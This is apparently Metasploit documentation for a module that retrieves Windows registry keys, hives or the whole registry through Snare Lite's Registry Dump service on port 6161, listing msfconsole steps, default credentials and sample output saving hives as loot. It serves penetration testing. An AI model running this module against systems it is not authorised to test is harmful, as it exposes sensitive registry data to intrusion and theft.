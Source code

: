 ## Description

  This module uses the Registry Dump feature of the [Snare Lite for Windows](https://sourceforge.net/projects/snare/) HTTP service on 6161/TCP to retrieve the Windows registry. The Registry Dump functionality is unavailable in Snare Enterprise.

  **Note: The Registry Dump functionality accepts only one connected client at a time. Requesting a large key/hive will cause the service to become unresponsive until the server completes the request.**


## Vulnerable Application

  SNARE (System iNtrusion Analysis and Reporting Environment) is a series of log collection agents that facilitate centralised analysis of audit log data.

  This module has been tested successfully with Snare Lite for Windows version 4.0.2.0 on Windows XP SP3.

  Snare Lite for Windows is no longer supported, however a [free trial is available](http://www.snarealliance.com/snare-open-source-agent-downloads-submission/) from the Snare Alliance website.


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use auxiliary/gather/snare_registry`
  3. Do: `set rhost [IP]`
  4. Do: `set HttpUsername [USERNAME]`
  5. Do: `set HttpPassword [PASSWORD]`
  6. Do: `run`
  7. You should get a copy of *HKLM\HARDWARE\DESCRIPTION\System* from the remote Windows system


## Options

**HttpUsername**

The username for Snare remote access (default: `snare`).

**HttpPassword**

The password for Snare remote access (default: blank).

**REG_DUMP_KEY**

Retrieve the specified registry key and all sub-keys.

**REG_DUMP_ALL**

Retrieve the entire Windows registry.

**TIMEOUT**

Timeout in seconds for downloading each registry key/hive.


## Scenarios

Retrieve a specific registry key:

  ```
  msf auxiliary(snare_registry) > set REG_DUMP_KEY HKLM\\HARDWARE\\DESCRIPTION\\System
  REG_DUMP_KEY => HKLM\HARDWARE\DESCRIPTION\System
  msf auxiliary(snare_registry) > run

  [*] 192.168.18.155:6161 - Retrieving registry key 'HKLM\\HARDWARE\\DESCRIPTION\\System'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (23092 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133011_default_192.168.18.155_snare.registry_842138.txt
  [*] Auxiliary module execution completed
  ```

Retrieve an entire hive:

  ```
  msf auxiliary(snare_registry) > set REG_DUMP_KEY HKLM
  REG_DUMP_KEY => HKLM
  msf auxiliary(snare_registry) > run

  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKLM'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (10657975 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133147_default_192.168.18.155_snare.registry_247207.txt
  [*] Auxiliary module execution completed
  ```

Retrieve the entire registry:

  ```
  msf auxiliary(snare_registry) > set REG_DUMP_ALL true
  REG_DUMP_ALL => true
  msf auxiliary(snare_registry) > run

  [*] 192.168.18.155:6161 - Retrieving list of registry hives ...
  [+] 192.168.18.155:6161 - Found 5 registry hives (HKEY_CLASSES_ROOT, HKEY_CURRENT_CONFIG, HKEY_CURRENT_USER, HKEY_LOCAL_MACHINE, HKEY_USERS)
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_CLASSES_ROOT'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (3933816 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133222_default_192.168.18.155_snare.registry_070659.txt
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_CURRENT_CONFIG'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (5605 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133222_default_192.168.18.155_snare.registry_376606.txt
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_CURRENT_USER'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (269927 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133223_default_192.168.18.155_snare.registry_653681.txt
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_LOCAL_MACHINE'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (11446508 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133336_default_192.168.18.155_snare.registry_003003.txt
  [*] 192.168.18.155:6161 - Retrieving registry hive 'HKEY_USERS'...
  [+] 192.168.18.155:6161 - Retrieved key successfully (1668306 bytes)
  [+] File saved in: /root/.msf4/loot/20151225133342_default_192.168.18.155_snare.registry_236335.txt
  [*] Auxiliary module execution completed
  ```

